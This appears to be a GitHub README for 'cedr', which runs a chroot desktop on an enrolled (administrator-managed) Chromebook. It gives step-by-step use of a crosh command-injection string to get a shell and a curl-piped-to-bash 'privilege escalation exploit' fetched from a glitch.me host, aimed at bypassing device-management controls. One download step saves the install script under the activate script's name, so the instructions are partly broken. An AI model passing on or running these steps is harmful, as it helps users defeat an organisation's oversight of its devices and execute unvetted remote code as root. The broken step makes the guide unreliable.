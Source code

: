 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you can mount the drive and download cedr as follows:
```bash
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-install.sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-activate.sh
chmod +x cedr-activate.sh
chmod +x cedr-install.sh
```
5. You now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want.
```bash
./cedr-install.sh xfce
```
6. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following, replacing `startxfce4` with the normal host command (see the crouton docs) you would use to launch it:
```bash
./cedr-activate.sh startxfce4
```
7. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
cd /home/chronos
umount /home/chronos/usbdrv
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the following steps:

1. Mount the drive:
```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
```
2. Launch `cedr-activate.sh` with the host command you found earlier:
```bash
./cedr-activate.sh startxfce4
```
